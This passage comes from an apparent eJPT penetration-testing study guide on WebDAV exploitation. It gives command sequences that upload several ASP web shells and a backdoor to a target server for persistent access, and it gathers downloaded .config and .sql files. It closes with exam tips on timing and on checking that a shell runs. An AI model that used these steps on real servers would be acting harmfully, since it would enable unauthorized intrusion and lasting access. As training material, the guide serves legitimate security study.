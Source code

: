 ```bash
# Step 3: Organize downloaded evidence (1 minute)
!mkdir downloaded_files
!mv *.config *.sql downloaded_files/
# Local file organization for analysis
```

#### **Scenario 3: Organized Multi-Payload Deployment**
**Given:** WebDAV write access and requirement for persistent access  
**Task:** Create organized directory structure and deploy multiple shells  
**Time Allocation:** 6-8 minutes  

**Expected Approach:**
```bash
# Step 1: Create organized directory structure (2 minutes)
mkcol payloads
cd payloads
mkcol asp_shells
mkcol backup_access

# Step 2: Deploy multiple payloads strategically (4 minutes)
cd asp_shells
put /usr/share/webshells/asp/cmd.asp
put /usr/share/webshells/asp/webshell.asp
cd ../backup_access
put /usr/share/webshells/asp/simple-backdoor.asp

# Step 3: Verify deployment and document (2 minutes)
ls
cd ..
ls
# Document locations for reporting
```

### **📝 eJPT Exam Tips & Success Strategies:**

#### **⏰ Time Management Guidelines:**
- **1-2 minutes:** Establish WebDAV connection and authentication
- **2-3 minutes:** Upload primary web shell and verify
- **1 minute:** Confirm upload success and basic functionality
- **2-3 minutes:** Additional file operations if scenario requires
- **1 minute:** Document findings and plan next steps

#### **🎯 Common Exam Pitfalls to Avoid:**
1. **Incorrect File Paths** → Solution: Always verify local file locations with `!ls` before upload
2. **Wrong Web Shell Type** → Solution: Match shell type to server technology (ASP for IIS, PHP for Apache)
3. **Upload Verification Neglect** → Solution: Always use `ls` to confirm successful upload before proceeding
4. **Web Shell Access Testing Omission** → Solution: Test shell functionality via browser before moving to next objective

#### **✅ Success Indicators for eJPT:**
- **Authentication Success:** Prompt changes to `dav:/webdav/>` format
- **Upload Completion:** Progress shows 100% with byte count match
- **File Verification:** Uploaded file appears in `ls` output with correct size
- **Command Execution:** Web shell responds to basic commands like `whoami`
- **Objective Achievement:** Successfully complete assigned penetration testing task
